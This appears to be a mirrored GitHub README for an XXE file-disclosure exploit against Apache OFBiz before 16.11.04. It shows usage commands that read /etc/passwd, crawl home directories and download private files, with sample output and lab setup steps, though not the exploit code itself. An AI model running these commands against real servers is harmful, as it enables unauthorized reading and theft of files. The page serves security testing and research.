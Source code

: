 # Apache-OFBiz-XXE

XXE injection (file disclosure) exploit for Apache OFBiz < 16.11.04

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jamieparfet](https://github.com/jamieparfet) |
| Url      | [https://github.com/jamieparfet/Apache-OFBiz-XXE](https://github.com/jamieparfet/Apache-OFBiz-XXE)                                               |
| Stars    | 14                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache* cve-2018-8033* exploit* ofbiz* xxe

</details>

## Readme

# Apache OFBiz XXE
XXE injection (file disclosure) exploit for Apache OFBiz &lt; 16.11.04

## Information
Apache OFBiz, before version 16.11.04, contains two distinct XXE injection vulnerabilities. The public disclosures for each vulnerability can be found below:

* [1] https://seclists.org/oss-sec/2018/q4/12
* [2] https://seclists.org/oss-sec/2018/q4/13

This exploit targets the vulnerability disclosed in link 1. Although this vulnerability was not assigned a CVE (the root cause lies in an outdated library), it is easier to exploit than the vulnerability disclosed in link 2 (CVE-2018-8033), which requires hosting an external DTD that the vulnerable server must reference in each request.

## Usage
### Display a single file
```
$ python exploit.py -u https://localhost:8443 -f /etc/passwd
```
### Crawl through directories
```
$ python exploit.py -u https://localhost:8443 -c /home/bob

[*] DIR: /home/bob
[*] DIR: /home/bob/docs
[*] FILE: /home/bob/docs/proposal.docx
[*] DIR: /home/bob/stuff
[*] DIR: /home/bob/stuff/more-stuff
[*] FILE: /home/bob/stuff/more-stuff/file2.txt
[*] FILE: /home/bob/stuff/more-stuff/secret.txt
[*] FILE: /home/bob/stuff/file3.txt
[*] FILE: /home/bob/file.txt
```
### Download a single file
```
$ python exploit.py -u https://localhost:8443 -f /home/bob/stuff/more-stuff/secret.txt -o ~/local/
$ ls ~/local/
home--bob--stuff--more-stuff--secret.txt
```

## OFBiz setup
Follow the steps below to setup OFBiz 16.11.04 in order to test this exploit. This was performed on Ubuntu.
```
$ sudo add-apt-repository ppa:webupd8team/java
$ sudo apt install oracle-java8-installer 
$ sudo update-alternatives --config java

$ wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-16.11.04.zip
$ unzip apache-ofbiz-16.11.04.zip
$ cd apache-ofbiz-16.11.04/

$ ./gradlew cleanAll loadDefault
$ ./gradlew ofbiz
```
Browse to https://\<ip\>:8443/ordermgr/control/main to make sure the installation was successful



## Get the content

```
git clone https://github.com/jamieparfet/Apache-OFBiz-XXE
cd Apache-OFBiz-XXE
```

{% embed url="https://github.com/jamieparfet/Apache-OFBiz-XXE" %}

<figure><img src="https://avatars.githubusercontent.com/u/9058983?v=4" alt=""><figcaption><p>jamieparfet</p></figcaption></figure>
